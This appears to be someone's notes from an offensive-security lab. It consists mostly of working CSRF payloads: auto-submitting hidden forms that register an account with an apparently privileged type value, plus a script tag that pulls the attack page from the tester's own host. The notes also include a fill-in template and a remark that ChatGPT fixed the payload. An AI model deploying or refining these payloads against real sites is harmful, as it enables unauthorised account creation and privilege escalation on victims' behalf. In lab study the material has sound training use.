 ```html
    document.forms['csrf'].submit();
    return false;
  }
</script>
</head>
<body onload="submitForms();" >
  <form action="/loginLogout" method="post" name="csrf" enctype="multipart/form-data">
    <input type="hidden" name="_token" value="LrJUEU2RNjESdh7G8ZeafIFsK1SzVgR1dRtNNoxY">
    <input type="hidden" name="username" value="bugstwo">
    <input type="hidden" name="password" value="bugstwo">
    <input type="hidden" name="firstName" value="bugstwo">
    <input type="hidden" name="lastName" value="bugstwo">
    <input type="hidden" name="email" value="bugstwo@local.com">
    <input type="hidden" name="dtype" value="isRegister">
    <input type="hidden" name="type" value="100">
</body>
</html>
```
my payload but chatgpt fixed it 
`csrf3.html`
payload: `<script src="http://192.168.45.155:8000/csrftest3.html"></script>`
```html
<html onload="document.forms['csrf'].submit();">
<head>
  <form action="/loginLogout" method="POST" accept-charset="UTF-8" name="csrf" enctype="multipart/form-data">
    <input type="hidden" name="username" value="bugstwo">
    <input type="hidden" name="password" value="bugstwo">
    <input type="hidden" name="firstName" value="bugstwo">
    <input type="hidden" name="lastName" value="bugstwo">
    <input type="hidden" name="email" value="bugstwo@local.com">
    <input type="hidden" name="dtype" value="isRegister">
    <input type="hidden" name="type" value="100">
  </form>
</head>
</html>
```

recommended from discord
```html
<html>
<body onload="document.forms['pwn'].submit()">
<form method="POST" action="/loginLogout" accept-charset="UTF-8" name="pwn" enctype="multipart/form-data">
<input type="hidden" name="username" value="offsec"/>
<input type="hidden" name="password" value="offsec"/>
<input type="hidden" name="firstName" value="offsec"/>
<input type="hidden" name="lastName" value="offsec"/>
<input type="hidden" name="email" value="offsec@offsectest.local"/>
<input type="hidden" name="type" value="100"/>
<input type="hidden" name="dType" value="isRegister"/>
</form>
</body>
</html>
</html>```



```bash
<body onload="document.forms['name of the form here'].submit()">
<form method="POST" action="action here" accept-charset="UTF-8" name="name of the form" enctype="multipart/form-data">
<input type="hidden" name="username" value="username you like"/>
.......
```